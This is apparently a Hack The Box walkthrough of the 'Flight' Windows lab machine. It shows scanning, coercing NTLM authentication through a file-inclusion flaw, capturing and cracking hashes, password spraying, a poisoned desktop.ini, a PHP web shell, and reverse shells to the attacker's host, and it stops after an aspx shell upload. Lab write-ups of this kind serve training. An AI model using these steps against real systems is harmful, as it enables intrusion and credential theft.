

# Flight

This is the write-up of the Flight machine from Hack The Box.

# Reconnaissance

First, we execute a full port scan on the host.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]  
╰─ $ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.10.11.187

PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49694/tcp open  unknown
49722/tcp open  unknown
```

Now, we execute a port scan only on the open ports.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ sudo nmap -vv -A -Pn -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49694,49722 -oA nmap/flight 10.10.11.187

PORT      STATE SERVICE       REASON          VERSION                                                                                                                                                            
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus                                                                                                                                                    
80/tcp    open  http          syn-ack ttl 127 Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)                                                                                                             
| http-methods:                                                                                                                                                                                                  
|   Supported Methods: OPTIONS HEAD GET POST TRACE                                                                                                                                                               
|_  Potentially risky methods: TRACE                                                                                                                                                                             
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1                                                                                                                                             
|_http-title: g0 Aviation                                                                                                                                                                                        
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-05-11 04:09:48Z)                                                                                                     
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC                                                                                                                                              
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn                                                                                                                                      
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)                                                                      
445/tcp   open  microsoft-ds? syn-ack ttl 127                                                                                                                                                                    
464/tcp   open  kpasswd5?     syn-ack ttl 127                                                                                                                                                                    
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0                                                                                                                                
636/tcp   open  tcpwrapped    syn-ack ttl 127                                                                                                                                                                    
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)                                                                      
3269/tcp  open  tcpwrapped    syn-ack ttl 127                                                                                                                                                                    
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                                                                                            
|_http-title: Not Found                                                                                                                                                                                          
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                                                                                                                      
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing                                                                                                                                               
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC                                                                                                                                              
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0                                                                                                                                
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC                                                                                                                                              
49694/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC                                                                                                                                              
49722/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

We write down the domain that we have found on our port scan in our hosts file.



# Enumeration

We started enumerating the SMB server on port 445. We run the crackmapexec tool and we get the host’s name.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ crackmapexec smb 10.10.11.187
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing WINRM protocol database
[*] Initializing FTP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing SMB protocol database
[*] Initializing LDAP protocol database
[*] Initializing RDP protocol database
[*] Initializing SSH protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
```

We write down `g0.flight.htb` on our local hosts file too.

We start to enumerate subdomains running the ffuf tool.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://flight.htb -H "Host: FUZZ.flight.htb" -fs 7069
/'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://flight.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.flight.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 7069
________________________________________________

[Status: 200, Size: 3996, Words: 1045, Lines: 91, Duration: 166ms]
    * FUZZ: school
```

We write down in our hosts file the subdomain `school.flight.htb`.


## Web Server

Accessing the main domain `flight.htb` we got.


Accessing the `school.flight.htb` subdomain, we got.


Clicking on the “Home” link we got the URL that contains a `view` parameter.


Putting the `index.php` page on the parameter we could load the page, so we could have here an Local File Inclusion (LFI) or an File Disclosure vulnerability.

Checking the source code of the page with parameter `view` set with `index.php` we got.


As this is a Windows machine, we open a listener on our attack machine on port 445 (SMB) and we send a request like the following in the Burp Suite.


Checking back on our netcat listener.


Knowing that, we running the Responder tool on our local attack machine and submit the same request on the Burp Suite.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]                                                                                                                                         
╰─ $ sudo responder -I tun0                                                                                                                                                                                      
                                         __                                                                                                                                                                      
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.                                                                                                                                                         
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|                                                                                                                                                         
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|                                                                                                                                                           
                   |__|                                                                                                                                                                                          
                                                                                                                                                                                                                 
           NBT-NS, LLMNR & MDNS Responder 3.1.3.0                                                                                                                                                                
                                                                                                                                                                                                                 
  To support this project:                                                                                                                                                                                       
  Patreon -> https://www.patreon.com/PythonResponder                                                                                                                                                             
  Paypal  -> https://paypal.me/PythonResponder                                                                                                                                                                   
                                                                                                                                                                                                                 
  Author: Laurent Gaffie (laurent.gaffie@gmail.com)                                                                                                                                                              
  To kill this script hit CTRL-C

...

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.11.187
[SMB] NTLMv2-SSP Username : flight\svc_apache
[SMB] NTLMv2-SSP Hash     : svc_apache::flight:768c6c4e52046375:988AB3DF891273AF9F77C6BB93203D74:010100000000000000DA49476883D90180E9F35DDC4AADA20000000002000800450058004400410001001E00570049004E002D0059004B0034004B0034004C003000460041004400440004003400570049004E002D0059004B0034004B0034004C00300046004100440044002E0045005800440041002E004C004F00430041004C000300140045005800440041002E004C004F00430041004C000500140045005800440041002E004C004F00430041004C000700080000DA49476883D90106000400020000000800300030000000000000000000000000300000EFD2300B7F23765BCE6F45733FDBF1AB3F84C0D9E6395D6D54A81B6575542D790A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100350038000000000000000000
[*] Skipping previously captured hash for flight\svc_apache
[*] Skipping previously captured hash for flight\svc_apache
```

We got the hash NTLMv2 for the service svc_apache. We copied the hash to a file and run hashcat in order to crack it.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ hashcat -m 5600 svc_apache.hash /usr/share/wordlists/rockyou.txt --force

...
Dictionary cache hit:                                                                                                                                                                                            
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

SVC_APACHE::flight:768c6c4e52046375:988ab3df891273af9f77c6bb93203d74:010100000000000000da49476883d90180e9f35ddc4aada20000000002000800450058004400410001001e00570049004e002d0059004b0034004b0034004c003000460041004400440004003400570049004e002d0059004b0034004b0034004c00300046004100440044002e0045005800440041002e004c004f00430041004c000300140045005800440041002e004c004f00430041004c000500140045005800440041002e004c004f00430041004c000700080000da49476883d90106000400020000000800300030000000000000000000000000300000efd2300b7f23765bce6f45733fdbf1ab3f84c0d9e6395d6d54a81b6575542d790a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100350038000000000000000000:S@Ss!K@*t13
                                                           
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: SVC_APACHE::flight:768c6c4e52046375:988ab3df891273a...000000
```

We were able to crack the password hash for the service.

| USER | PASSWORD | SERVICE |
| --- | --- | --- |
| svc_apache | S@Ss!K@*t13 | Apache Service |
| s.moon | S@Ss!K@*t13 |  |
| c.bum | Tikkycoll_431012284 |  |

Checking if we can obtain shares for this service on SMB service, we got.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ crackmapexec smb 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13' --shares
SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.10.11.187    445    G0               [+] Enumerated shares
SMB         10.10.11.187    445    G0               Share           Permissions     Remark
SMB         10.10.11.187    445    G0               -----           -----------     ------
SMB         10.10.11.187    445    G0               ADMIN$                          Remote Admin
SMB         10.10.11.187    445    G0               C$                              Default share
SMB         10.10.11.187    445    G0               IPC$            READ            Remote IPC
SMB         10.10.11.187    445    G0               NETLOGON        READ            Logon server share 
SMB         10.10.11.187    445    G0               Shared          READ            
SMB         10.10.11.187    445    G0               SYSVOL          READ            Logon server share 
SMB         10.10.11.187    445    G0               Users           READ            
SMB         10.10.11.187    445    G0               Web             READ
```

We connected on `Shared` SMB share and we haven’t got a any files in this share.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─[☢] $ smbclient -U 'svc_apache' -p 'S@Ss!K@*t13' //10.10.11.187/Shared
Password for [WORKGROUP\svc_apache]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Oct 28 16:21:28 2022
  ..                                  D        0  Fri Oct 28 16:21:28 2022

                5056511 blocks of size 4096. 1219206 blocks available
```

On Users share, we got.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ smbclient -U 'svc_apache' //10.10.11.187/Users 
Password for [WORKGROUP\svc_apache]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Thu Sep 22 16:16:56 2022
  ..                                 DR        0  Thu Sep 22 16:16:56 2022
  .NET v4.5                           D        0  Thu Sep 22 15:28:03 2022
  .NET v4.5 Classic                   D        0  Thu Sep 22 15:28:02 2022
  Administrator                       D        0  Mon Oct 31 14:34:00 2022
  All Users                       DHSrn        0  Sat Sep 15 03:28:48 2018
  C.Bum                               D        0  Thu Sep 22 16:08:23 2022
  Default                           DHR        0  Tue Jul 20 15:20:24 2021
  Default User                    DHSrn        0  Sat Sep 15 03:28:48 2018
  desktop.ini                       AHS      174  Sat Sep 15 03:16:48 2018
  Public                             DR        0  Tue Jul 20 15:23:25 2021
  svc_apache                          D        0  Fri Oct 21 14:50:21 2022

                5056511 blocks of size 4096. 1219078 blocks available
```

Nothing interesting in this share. Now we tried the Web share.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ smbclient -U 'svc_apache' //10.10.11.187/Web  
Password for [WORKGROUP\svc_apache]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu May 11 01:07:00 2023
  ..                                  D        0  Thu May 11 01:07:00 2023
  flight.htb                          D        0  Thu May 11 01:07:00 2023
  school.flight.htb                   D        0  Thu May 11 01:07:00 2023

                5056511 blocks of size 4096. 1218822 blocks available
```

We got nothing interesting here too.

We run the crackmapexec again, but now with the `-M spider_plus` option like this.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ crackmapexec smb 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13' -M spider_plus --spider Users
SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SPIDER_P... 10.10.11.187    445    G0               [*] Started spidering plus with option:
SPIDER_P... 10.10.11.187    445    G0               [*]        DIR: ['print$']
SPIDER_P... 10.10.11.187    445    G0               [*]        EXT: ['ico', 'lnk']
SPIDER_P... 10.10.11.187    445    G0               [*]       SIZE: 51200
SPIDER_P... 10.10.11.187    445    G0               [*]     OUTPUT: /tmp/cme_spider_plus
SPIDER_P... 10.10.11.187    445    G0               [*] Reconnect to server 4
```

Analyzing the output on `/tmp/cme_spider_plus` we haven’t got anything interesting.

Now, we run `crackmapexec` in order to enumerate all the users on the machine.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ crackmapexec smb 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13' --users                      
SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.10.11.187    445    G0               [+] Enumerated domain user(s)
SMB         10.10.11.187    445    G0               flight.htb\O.Possum                       badpwdcount: 0 desc: Helpdesk
SMB         10.10.11.187    445    G0               flight.htb\svc_apache                     badpwdcount: 0 desc: Service Apache web
SMB         10.10.11.187    445    G0               flight.htb\V.Stevens                      badpwdcount: 0 desc: Secretary
SMB         10.10.11.187    445    G0               flight.htb\D.Truff                        badpwdcount: 0 desc: Project Manager
SMB         10.10.11.187    445    G0               flight.htb\I.Francis                      badpwdcount: 0 desc: Nobody knows why he's here
SMB         10.10.11.187    445    G0               flight.htb\W.Walker                       badpwdcount: 0 desc: Payroll officer
SMB         10.10.11.187    445    G0               flight.htb\C.Bum                          badpwdcount: 0 desc: Senior Web Developer
SMB         10.10.11.187    445    G0               flight.htb\M.Gold                         badpwdcount: 0 desc: Sysadmin
SMB         10.10.11.187    445    G0               flight.htb\L.Kein                         badpwdcount: 0 desc: Penetration tester
SMB         10.10.11.187    445    G0               flight.htb\G.Lors                         badpwdcount: 0 desc: Sales manager
SMB         10.10.11.187    445    G0               flight.htb\R.Cold                         badpwdcount: 0 desc: HR Assistant
SMB         10.10.11.187    445    G0               flight.htb\S.Moon                         badpwdcount: 0 desc: Junion Web Developer
SMB         10.10.11.187    445    G0               flight.htb\krbtgt                         badpwdcount: 0 desc: Key Distribution Center Service Account
SMB         10.10.11.187    445    G0               flight.htb\Guest                          badpwdcount: 0 desc: Built-in account for guest access to the computer/domain
SMB         10.10.11.187    445    G0               flight.htb\Administrator                  badpwdcount: 0 desc: Built-in account for administering the computer/domain
```

We create a file with all those users running this command `cat users.txt | awk '{print $5}' | grep flight > u` , rename the “u” file to “users.txt”.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ cat users.txt                                     
flight.htb\O.Possum
flight.htb\svc_apache
flight.htb\V.Stevens
flight.htb\D.Truff
flight.htb\I.Francis
flight.htb\W.Walker
flight.htb\C.Bum
flight.htb\M.Gold
flight.htb\L.Kein
flight.htb\G.Lors
flight.htb\R.Cold
flight.htb\S.Moon
flight.htb\krbtgt
flight.htb\Guest
flight.htb\Administrator
```

Running `crackmapexec` again for password spreading, we got the same password for user `S.Moon` .

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ crackmapexec smb 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue-on-success
SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [-] flight.htb\O.Possum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.10.11.187    445    G0               [-] flight.htb\V.Stevens:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\D.Truff:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\I.Francis:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\W.Walker:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\C.Bum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\M.Gold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\L.Kein:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\G.Lors:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\R.Cold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 
SMB         10.10.11.187    445    G0               [-] flight.htb\krbtgt:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\Guest:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\Administrator:S@Ss!K@*t13 STATUS_LOGON_FAILURE
```

Running `crackmapexec` with the user `s.moon` we got the following shares.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ crackmapexec smb 10.10.11.187 -u 's.moon' -p 'S@Ss!K@*t13' --shares
SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\s.moon:S@Ss!K@*t13 
SMB         10.10.11.187    445    G0               [+] Enumerated shares
SMB         10.10.11.187    445    G0               Share           Permissions     Remark
SMB         10.10.11.187    445    G0               -----           -----------     ------
SMB         10.10.11.187    445    G0               ADMIN$                          Remote Admin
SMB         10.10.11.187    445    G0               C$                              Default share
SMB         10.10.11.187    445    G0               IPC$            READ            Remote IPC
SMB         10.10.11.187    445    G0               NETLOGON        READ            Logon server share 
SMB         10.10.11.187    445    G0               Shared          READ,WRITE      
SMB         10.10.11.187    445    G0               SYSVOL          READ            Logon server share 
SMB         10.10.11.187    445    G0               Users           READ            
SMB         10.10.11.187    445    G0               Web             READ
```

We are able to write on the `Shared` share. Now we have to poisoning the Shared SMB share with a file and theft more hashes. For this we will use this.

[https://github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft)

We generated our files using  

`╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ python3 ntlm_theft.py -g all -s 10.10.14.158 -f th3g3nt`

Open our responder and put the `desktop.ini` generated file to the Shared share.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/images/th3g3nt]
╰─ $ smbclient -U 's.moon' //10.10.11.187/Shared               
Password for [WORKGROUP\s.moon]:
Try "help" to get a list of possible commands.
smb: \> put desktop.ini
putting file desktop.ini as \desktop.ini (0.1 kb/s) (average 0.1 kb/s)
```

This is the desktop.ini file generated by ntlm_theft.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/images/th3g3nt]
╰─ $ cat desktop.ini 
[.ShellClassInfo]
IconResource=\\10.10.14.158\aa%
```

On our responder we got the hash for user c.bum that probably access our poisoned file.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]                                                                                                                                         
╰─ $ sudo responder -I tun0                                                                                                                                                                                      
                                         __                                                                                                                                                                      
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.                                                                                                                                                         
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|                                                                                                                                                         
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|                                                                                                                                                           
                   |__|                                                                                                                                                                                          
                                                                                                                                                                                                                 
           NBT-NS, LLMNR & MDNS Responder 3.1.3.0                                                                                                                                                                
                                                                                                                                                                                                                 
  To support this project:                                                                                                                                                                                       
  Patreon -> https://www.patreon.com/PythonResponder                                                                                                                                                             
  Paypal  -> https://paypal.me/PythonResponder                                                                                                                                                                   
                                                                                                                                                                                                                 
  Author: Laurent Gaffie (laurent.gaffie@gmail.com)                                                                                                                                                              
  To kill this script hit CTRL-C

...

c.bum::flight.htb:d558d6690bb6cfd1:5AF32E51E65F805EE5194E15CFCCD679:010100000000000080D438F96F83D901D570F7E1249069E10000000002000800550051003900510001001E00570049004E002D0044004B005600360042004F005500590058004900420004003400570049004E002D0044004B005600360042004F00550059005800490042002E0055005100390051002E004C004F00430041004C000300140055005100390051002E004C004F00430041004C000500140055005100390051002E004C004F00430041004C000700080080D438F96F83D90106000400020000000800300030000000000000000000000000300000EFD2300B7F23765BCE6F45733FDBF1AB3F84C0D9E6395D6D54A81B6575542D790A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100350038000000000000000000
```

We were able to crack the c.bum user’s hash using hashcat.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ hashcat -m 5600 c.bum.hash /usr/share/wordlists/rockyou.txt --force
hashcat (v6.2.6) starting                                                                               
                                                                                                        
You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-Intel(R) Core(TM) i5-9500 CPU @ 3.00GHz, 6824/13713 MB (2048 MB allocatable), 6MCU
                                                    
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
                                                    
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates

...

C.BUM::flight.htb:d558d6690bb6cfd1:5af32e51e65f805ee5194e15cfccd679:010100000000000080d438f96f83d901d570f7e1249069e10000000002000800550051003900510001001e00570049004e002d0044004b005600360042004f005500590058004900420004003400570049004e002d0044004b005600360042004f00550059005800490042002e0055005100390051002e004c004f00430041004c000300140055005100390051002e004c004f00430041004c000500140055005100390051002e004c004f00430041004c000700080080d438f96f83d90106000400020000000800300030000000000000000000000000300000efd2300b7f23765bce6f45733fdbf1ab3f84c0d9e6395d6d54a81b6575542d790a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100350038000000000000000000:Tikkycoll_431012284
```

Checking the permissions  on SMB shares for the user `c.bum` we got.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ crackmapexec smb 10.10.11.187 -u 'c.bum' -p 'Tikkycoll_431012284' --shares
SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\c.bum:Tikkycoll_431012284 
SMB         10.10.11.187    445    G0               [+] Enumerated shares
SMB         10.10.11.187    445    G0               Share           Permissions     Remark
SMB         10.10.11.187    445    G0               -----           -----------     ------
SMB         10.10.11.187    445    G0               ADMIN$                          Remote Admin
SMB         10.10.11.187    445    G0               C$                              Default share
SMB         10.10.11.187    445    G0               IPC$            READ            Remote IPC
SMB         10.10.11.187    445    G0               NETLOGON        READ            Logon server share 
SMB         10.10.11.187    445    G0               Shared          READ,WRITE      
SMB         10.10.11.187    445    G0               SYSVOL          READ            Logon server share 
SMB         10.10.11.187    445    G0               Users           READ            
SMB         10.10.11.187    445    G0               Web             READ,WRITE
```

We are able to write in Web share. Accessing the share we got.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ smbclient -U c.bum //10.10.11.187/Web
Password for [WORKGROUP\c.bum]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu May 11 02:02:00 2023
  ..                                  D        0  Thu May 11 02:02:00 2023
  flight.htb                          D        0  Thu May 11 02:02:00 2023
  school.flight.htb                   D        0  Thu May 11 02:02:00 2023

                5056511 blocks of size 4096. 1216501 blocks available
smb: \> cd flight.htb
smb: \flight.htb\>
```

Knowing we can write in this Web share and the web server run PHP, we can put a PHP payload in order to get Remote Code Execution (RCE) on the machine.

First, we create our payload like this.

```bash
<?php
system($_REQUEST['cmd']);
?>
```

And upload this file to Web SMB share.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ smbclient -U c.bum //10.10.11.187/Web
Password for [WORKGROUP\c.bum]:
Try "help" to get a list of possible commands.
smb: \> cd school.flight.htb
smb: \school.flight.htb\> put shell.php
putting file shell.php as \school.flight.htb\shell.php (0.1 kb/s) (average 0.1 kb/s)
```

Accessing the file `shell.php` on our browser.


We upload a copy of netcat for windows on the same SMB share.

```bash
smb: \school.flight.htb\> lcd www
smb: \school.flight.htb\> put nc64.exe
putting file nc64.exe as \school.flight.htb\nc64.exe (54.9 kb/s) (average 13.7 kb/s)
```

We executed on our browser and check our netcat listener.


```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ rlwrap ncat -vnlp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.187.
Ncat: Connection from 10.10.11.187:52525.
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\flight.htb> whoami
whoami
flight\svc_apache
```

# Lateral Movement

We went to `inetpub` directory and check that user c.bum can write to this folder and we have `c.bum` credentials. We go for this tool.

[https://github.com/antonioCoco/RunasCs/releases/tag/v1.4](https://github.com/antonioCoco/RunasCs/releases/tag/v1.4)

We run the command after we upload `RunasCs.exe` tool to the host.

```bash
PS C:\programdata> .\RunasCs.exe c.bum Tikkycoll_431012284 powershell.exe -r 10.10.14.158:9001
.\RunasCs.exe c.bum Tikkycoll_431012284 powershell.exe -r 10.10.14.158:9001
[*] Warning: Using function CreateProcessWithLogonW is not compatible with logon type 8. Reverting to logon type Interactive (2)...
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-5b516$\Default
[+] Async process 'powershell.exe' with pid 6040 created and left in background.
```

Checking our netcat listener.

```bash
╭─[us-free-1]-[10.10.14.158]-[th3g3ntl3m4n@kali]-[~/htb/machines/flight]
╰─ $ rlwrap ncat -vnlp 9001
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.11.187.
Ncat: Connection from 10.10.11.187:52564.
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
flight\c.bum
```

Now we get a shell as c.bum we could notice that there is a service web running on port 8000 but it’s just locally. So we use chisel tool to port forward this 8000 port from the Windows host.

On our kali we set.


And on the Windows host we set.


Curling now our local host on port 8002 we got.


Accessing it on our browser, we got.


Know, we upload our `.aspx` reverse shell and access it on our [localhost](http://localhost) on port 8002.

Uploading our `aspx` shell.

```bash
PS C:\inetpub\development> curl http://10.10.14.158/shell.aspx -o shell.aspx
curl http://10.10.14.158/shell.aspx -o shell.aspx
PS C:\inetpub\development> dir
dir

    Directory: C:\inetpub\development

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        5/11/2023   6:27 PM                css                                                                   
d-----        5/11/2023   6:27 PM                fonts                                                                 
d-----        5/11/2023   6:27 PM                img                                                                   
d-----        5/11/2023   6:27 PM                js                                                                    
-a----        4/16/2018   2:23 PM           9371 contact.html                                                          
-a----        4/16/2018   2:23 PM          45949 index.html                                                            
-a----        5/11/2023   6:29 PM           4334 shell.aspx
```

Accessing it on our browser.


